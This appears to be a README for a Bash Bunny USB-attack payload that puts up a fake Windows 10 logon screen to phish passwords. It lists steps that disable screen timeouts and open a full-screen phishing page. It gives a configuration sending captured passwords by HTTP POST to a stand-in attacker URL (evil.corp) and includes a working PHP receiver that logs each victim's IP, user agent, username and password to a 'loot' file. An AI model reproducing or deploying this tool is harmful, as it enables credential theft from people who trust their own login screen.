 # "Microsoft Windows 10" Fake Logon Screen

- Title:         "Microsoft Windows 10" Fake Logon Screen
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows 10
- Category:      Phishing

## Description

1) Change "monitor-timeout (AC and DC)" at NEVER with "powercfg" utility.
2) Change "standby-timeout (AC and DC)" at NEVER with "powercfg" utility.
3) Retrieve the current username.
4) Full-screen opening of the phishing HTML page using the default web browser with a random wallpaper.
5) The "Bash Bunny" can be removed because the files are cached in the web browser.
6) The password will be sent by HTTP POST to the URL specified in the "DROP_URL" constant.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"
readonly DROP_URL="http://evil.corp:8080/drop.php?ZXZpbC5jb3Jw.png"
readonly INPUT_PLACEHOLDER="Password"


```

Example of code for the data receiver :
```php
<?php

if (
    $_SERVER['REQUEST_METHOD'] === 'POST' &&
    isset($_POST['username']) && !empty($_POST['username']) &&
    isset($_POST['password']) && !empty($_POST['password'])
) {

    $remote_addr = (string) $_SERVER['REMOTE_ADDR'];
    $user_agent = (string) $_SERVER['HTTP_USER_AGENT'];
    $username = (string) $_POST['username'];
    $password = (string) $_POST['password'];

    /*
        touch ./aGFrNQ_loot.log
        chown www-data:www-data ./aGFrNQ_loot.log
    */
    $loot = fopen('aGFrNQ_loot.log', 'a');
    fwrite($loot, "##\n");
    fwrite($loot, $remote_addr . "\n");
    fwrite($loot, $user_agent . "\n");
    fwrite($loot, $username . ':' . $password . "\n");
    fwrite($loot, "##\n");
    fclose($loot);

}

http_response_code(302);
header('Location: https://hak5.org/');
exit;

?>
```